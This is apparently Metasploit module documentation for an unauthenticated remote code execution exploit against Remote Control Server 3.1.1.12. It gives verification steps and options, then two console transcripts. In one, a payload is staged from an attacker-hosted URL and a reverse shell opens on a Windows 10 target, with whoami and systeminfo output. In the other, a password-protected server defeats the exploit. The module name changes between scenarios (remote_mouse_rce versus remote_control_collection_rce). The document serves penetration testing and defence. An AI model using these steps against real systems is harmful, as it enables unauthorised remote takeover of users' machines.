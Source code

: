 ## Vulnerable Application

This module utilizes the Remote Control Server's, part
of the Remote Control Collection by Steppschuh, protocol
to deploy a payload and run it from the server.  This module will only deploy
a payload if the server is set without a password (default).
Tested against 3.1.1.12, current at the time of module writing

Version 3.1.1.12 can be downloaded from http://remote-control-collection.com/
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_control_collection_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### PATH

The location to write the payload to
Defaults to `%temp%\\` aka `c:\\Windows\\Temp\\` on most systems.

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

## Scenarios

###  Remote Control Server 3.1.1.12 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (remote_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 1.1.1.1:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 1.1.1.1:1978 - Connecting
[*] 1.1.1.1:1978 - Sending Windows key
[*] 1.1.1.1:1978 - Opening command prompt
[*] 1.1.1.1:1978 - Sending stager
[*] 1.1.1.1:1978 - Using URL: http://2.2.2.2:8080/
[+] 1.1.1.1:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 1.1.1.1:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 1.1.1.1
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49962) at 2022-09-27 16:33:02 -0400
[*] 1.1.1.1:1978 - Server stopped.
[!] 1.1.1.1:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Control Server 3.1.1.12 on Windows 10, with a password

Expected to fail.

```
resource (remote_control_collection.rb)> use exploits/windows/misc/remote_control_collection_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_control_collection.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (remote_control_collection.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (remote_control_collection.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_control_collection_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Connecting and Sending Windows key
[*] Opening command prompt
[*] Sending stager
[*] Using URL: http://2.2.2.2:8080/
[*] Executing payload
[*] Server stopped.
[!] This exploit may require manual cleanup of 'c:\Windows\Temp\OqsTi76PX80it.exe' on the target
[*] Exploit completed, but no session was created
```
